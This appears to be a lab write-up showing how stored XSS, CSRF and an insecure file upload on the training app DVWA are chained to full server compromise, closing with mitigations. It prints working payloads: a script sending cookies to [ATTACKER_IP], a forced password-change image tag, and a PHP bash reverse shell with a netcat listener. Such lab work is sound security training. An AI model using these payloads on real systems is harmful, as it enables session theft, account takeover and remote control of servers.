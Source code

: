 # Lab Report: DVWA - Chaining XSS, CSRF, and File Upload for RCE

## Executive Summary

**This engagement demonstrated how a chain of low-severity web application vulnerabilities can escalate to full system compromise. By exploiting Stored XSS, CSRF, and an insecure file upload mechanism, the lab achieved remote code execution (RCE) on the DVWA application.**

**The lab highlights the risk of chained attacks in web applications, where individually minor issues (e.g., XSS, CSRF) can combine to create a critical security breach. In a production environment, such vulnerabilities could allow attackers to steal session data, escalate privileges, and execute arbitrary commands on the server.**

---

- Lab Type: Web Application Exploitation  
- Skill Level: Beginner–Intermediate  
- Focus: XSS, CSRF, File Upload, RCE  
---
- **Author**: Eric Graham 
- **Date**: 07/28/2025
- **Target**: Damn Vulnerable Web App (DVWA) - `http://[DVWA_IP]`  
- **Security Level**: Low  

---

## Objectives
1. Exploit Stored XSS to steal admin cookies.
2. Use stolen cookies for session hijacking.
3. Chain CSRF to force a password change.
4. Upload a malicious PHP shell via file upload.
5. Achieve Remote Code Execution (RCE).

---

## Tools Used
- **Browser**: Firefox/Chrome + Developer Tools.
- **Burp Suite**: Intercepting/modifying requests.
- **Cookie Editor**: Injecting stolen session cookies.
- **Python HTTP Server**: Hosting malicious files.
- **Netcat**: Reverse shell listener.

---

## Step 1: Stored XSS to Cookie Theft
### Exploitation
1. Navigate to **DVWA → XSS (Stored)**.
2. Inject a malicious script to steal cookies:
   ```html
   <script>document.location='http://[ATTACKER_IP]/steal.php?cookie='+document.cookie</script>
   ```
3. Host a PHP server to capture cookies (`steal.php`):
   ```php
   <?php file_put_contents('cookies.txt', $_GET['cookie']); ?>
   ```
4. **Admin Trigger**: When an admin views the XSS-infected page, their cookies are sent to your server.

### Evidence
![cookie_steal_scrit](/screenshots/dvwa/cookie_steal_script.png)

![php server output](/screenshots/dvwa/server_cookietxt_steal.png)

---

## Step 2: Session Hijacking
### Exploitation
1. Use **Cookie Editor** to inject the stolen `PHPSESSID` and `security=low` cookies.
2. Refresh the page to gain admin access.

### Evidence
![cookie_editor](/screenshots/dvwa/cookie_hijack.png)

![dvwa hijacked login](/screenshots/dvwa/hijack_login.png)

---

## Step 3: CSRF to Force Password Change
### Exploitation
1. Craft a malicious HTML file (`csrf.html`):
   ```html
   <img src="http://[DVWA_IP]/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change" width="0" height="0">
   ```
2. Host it on a Python server:
   ```bash
   python3 -m http.server 8000
   ```
3. Trick the admin into visiting `http://[ATTACKER_IP]:8000/csrf.html`.

### Evidence
![csrf email payload](/screenshots/dvwa/email_payload.png)

![python3](/screenshots/dvwa/server_rcvd_csrf.png)

![sql database](/screenshots/dvwa/database_pw_proof.png)

![Hashes.com](/screenshots/dvwa/pw_chng_proof.png)

---

## Step 4: File Upload to RCE
### Exploitation
1. Log in as admin (via hijacked session).
2. Navigate to **DVWA → File Upload**.
3. Upload a PHP reverse shell (`shell.php`):
   ```php
   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1'"); ?>
   ```
4. Start a Netcat listener:
   ```bash
   nc -lvnp 4444
   ```
5. Access the uploaded shell at `http://[DVWA_IP]/hackable/uploads/shell.php`.

### Evidence
![netcat](/screenshots/dvwa/rev_shell_output.png)

---

## Mitigations
1. **XSS**: 
   - Sanitize user input with `htmlspecialchars()`.
   - Implement Content Security Policy (CSP).
2. **CSRF**: 
   - Use anti-CSRF tokens.
   - Require POST requests for sensitive actions.
3. **File Upload**: 
   - Restrict file extensions (e.g., block `.php`).
   - Store uploads outside the web root.

---

## Conclusion
This lab demonstrated how chaining low-severity vulnerabilities (XSS → CSRF → File Upload) can lead to **full system compromise**. Always validate inputs, enforce strict session controls, and audit file uploads.

---

**Appendix**:  
- [Full PHP reverse shell code]  
- [Burp Suite request/response samples]

---

~ Eric Graham
